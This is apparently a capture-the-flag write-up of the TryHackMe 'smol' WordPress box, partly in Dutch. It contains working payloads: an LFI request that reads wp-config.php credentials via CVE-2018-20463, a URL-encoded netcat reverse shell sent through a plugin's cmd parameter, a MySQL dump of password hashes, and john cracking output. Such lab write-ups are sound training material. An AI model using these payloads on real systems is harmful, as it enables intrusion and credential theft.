

## delivery

### Summary

- Found wordpress cms, using wordpress recon tool to get full extracted information

#### Possible exploits:

- CVE-2018-20463
- CVE-2018-20462

#### Working attack vector

*CVE-2018-20463*

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php


/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

```

*Login worked to access wordpress panel*

#### Plugin Enumeration for shell access

*Shell execution via cmd parameter in function*

```
http://www.smol.thm/wp-admin/?cmd=id:
```


```
http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|sh%20-i%202%3E%261|nc%2010.9.3.63%209001%20%3E%2Ftmp%2Ff
```



*stabiele shell maken*

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

```
mysql -u wpuser -p
[wachtwoord van eerder]
user wordpress;
select * from wp_users;

admin:$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX
think:$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/
gege:$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
xavi:$P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1

[afkomstig van database dump]
```

*Hashcat Results - password*
```
┌──(root㉿kali)-[/smol]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sandiegocalifornia (diego)     
1g 0:00:01:02 DONE (2025-10-14 03:53) 0.01598g/s 21044p/s 21044c/s 21044C/s sandr1ta..sandervandoorn
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
```